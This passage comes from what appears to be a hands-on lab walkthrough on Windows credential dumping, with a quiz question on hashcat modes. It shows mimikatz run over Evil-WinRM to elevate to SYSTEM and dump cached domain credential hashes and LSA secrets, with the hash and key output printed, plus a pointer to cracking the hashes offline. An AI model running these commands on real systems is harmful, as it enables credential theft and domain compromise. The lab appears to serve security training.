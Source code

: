```

[NL$3 - 4/29/2025 4:50:36 PM]
RID       : 0000055f (1375)
User      : async\James_PARKER.FROM.LG
MsCacheV2 : 4411bd6bdfd17c963976175582e1d810

[NL$4 - 4/29/2025 1:34:34 AM]
RID       : 0000055c (1372)
User      : async\Tyler_ROSE
MsCacheV2 : 35395e499150d17b2597e43e680c8870

mimikatz(commandline) # exit
Bye!
```

These caches can be cracked offline when transformed into the right `DCC2` format, see: [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes).

**Q17**: What is the hashcat hash-mode for "Domain Cached Credentials 2 (DCC2), MS Cache 2" hashes? (i.e. 1420)

### 4.3. LSA Secrets

LSA secrets are stored in `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets` and are used to store sensitive information such as passwords, keys, and other secrets associated with the computer's domain account.

```
*Evil-WinRM* PS C:\windows\tasks> .\mimikatz.exe "token::elevate" "lsadump::secrets" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

720     {0;000003e7} 1 D 33311          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;3fcbd9f2} 0 D 1071015913  async\Tyler_ROSE        S-1-5-21-2085372437-1578838935-3393986013-1372  (11g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 1071109261  NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # lsadump::secrets
Domain : FS
SysKey : da7f3024df727946f1eaf1a2056acd53

Local name : FS ( S-1-5-21-2179374997-3008092852-1119610992 )
Domain name : async ( S-1-5-21-2085372437-1578838935-3393986013 )
Domain FQDN : async.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {8f01388d-7b0e-aa21-55a7-1577434f91cb}
  [00] {8f01388d-7b0e-aa21-55a7-1577434f91cb} d1501d2e51d6d67bf83166f88e14baa2177c3c3b4337ebe40ee1a22bd7c7ba85

Secret  : $MACHINE.ACC
```

[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami